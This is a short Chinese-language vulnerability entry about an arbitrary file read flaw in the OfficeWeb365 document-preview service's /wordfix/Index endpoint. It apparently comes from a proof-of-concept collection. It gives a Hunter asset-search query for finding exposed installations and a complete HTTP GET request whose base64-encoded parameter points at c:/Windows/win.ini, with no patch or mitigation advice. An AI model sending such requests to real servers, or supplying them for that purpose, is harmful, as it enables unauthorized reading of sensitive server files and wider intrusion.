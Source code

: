 # OfficeWeb365 wordfix存在任意读取漏洞

# 一、漏洞简介
OfficeWeb365是西安大西信息科技有限公司开发的，专注于Office文档在线预览及PDF文档在线预览云服务，包括Microsoft Word文档在线预览、Excel表格在线预览、Powerpoint演示文档在线预览，WPS文字处理、WPS表格、WPS演示及Adobe PDF文档在线预览。广泛应用于OA办公系统、招聘网站、在线教育类网站，提高客户体验、增加产品竞争力。OfficeWeb365 /wordfix/Indexs接口处存在任意文件读取漏洞，攻击者可通过独特的加密方式对payload进行加密，读取任意文件，获取服务器敏感信息，使系统处于极不安全的状态。

# 二、影响版本
+ OfficeWeb365

# 三、资产测绘
+ hunter：`app.name="OfficeWeb365"`

![1692028029052-65569f24-4578-4a92-a007-d93c1b5b8f94.png](./img/1uGoArCQ7SLdakCW/1692028029052-65569f24-4578-4a92-a007-d93c1b5b8f94-682048.png)

+ 登录页面

![1692028081742-18ce6201-05b3-4e01-a21c-4eca8dcf2636.png](./img/1uGoArCQ7SLdakCW/1692028081742-18ce6201-05b3-4e01-a21c-4eca8dcf2636-126524.png)

# 四、漏洞复现
```plain
GET /wordfix/Index?f=YzovV2luZG93cy93aW4uaW5p HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Upgrade-Insecure-Requests: 1
```

![1705936378459-10dffce2-93e7-4f55-aba9-2cef52979109.png](./img/1uGoArCQ7SLdakCW/1705936378459-10dffce2-93e7-4f55-aba9-2cef52979109-574409.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/aywxwlh86qyygfg7>